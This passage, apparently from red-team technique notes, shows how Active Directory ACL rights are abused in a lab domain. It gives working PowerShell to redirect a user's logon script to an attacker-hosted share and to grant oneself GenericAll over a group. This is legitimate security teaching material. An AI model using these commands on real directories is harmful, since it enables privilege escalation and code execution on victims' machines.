 ### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/20.png)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](../../.gitbook/assets/21.png)

### WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:

![](../../.gitbook/assets/22.png)

Which you can of course do through powershell:

```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

![](../../.gitbook/assets/23.png)

And you have a `WriteDACL` on that AD object:

![](../../.gitbook/assets/24.png)

...you can give yourself [`GenericAll`](broken-reference/) privileges with a sprinkle of ADSI sorcery:

```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:

